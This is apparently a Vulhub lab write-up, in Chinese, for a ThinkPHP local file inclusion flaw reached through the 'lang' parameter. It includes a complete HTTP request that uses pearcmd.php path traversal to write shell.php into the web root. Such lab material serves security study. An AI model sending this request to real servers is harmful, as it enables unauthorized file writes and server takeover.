



# ThinkPHP 多语言本地文件包含漏洞

## 漏洞描述

ThinkPHP 是一个在中国使用较多的 PHP 框架。在其 6.0.13 版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用 `lang` 参数来包含任意 PHP 文件。

虽然只能包含本地 PHP 文件，但在开启了 `register_argc_argv` 且安装了 pcel/pear 的环境下，可以包含 `/usr/local/lib/php/pearcmd.php` 并写入任意文件。

参考链接：

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> （本文介绍了 `pearcmd.php` 利用技巧的原理）

## 环境搭建

Vulhub 执行如下命令启动一个使用 ThinkPHP 6.0.12 版本开发的 Web 应用：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看到 ThinkPHP 默认的欢迎页面。



## 漏洞利用

首先，ThinkPHP 多语言特性不是默认开启的，所以我们可以尝试包含 `public/index.php` 文件来确认文件包含漏洞是否存在：



如果漏洞存在，则服务器会出错，返回 500 页面。

文件包含漏洞存在的情况下还需要服务器满足下面两个条件才能利用：

1. PHP 环境开启了 `register_argc_argv`
2. PHP 环境安装了 pcel/pear

Docker 默认的 PHP 环境恰好满足上述条件，所以我们可以直接使用下面这个数据包来在写 `shell.php` 文件：

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

如果服务器返回 pearcmd 的命令行执行结果，说明漏洞利用成功：


此时访问 `http://your-ip:8080/shell.php` 即可发现已经成功写入文件：


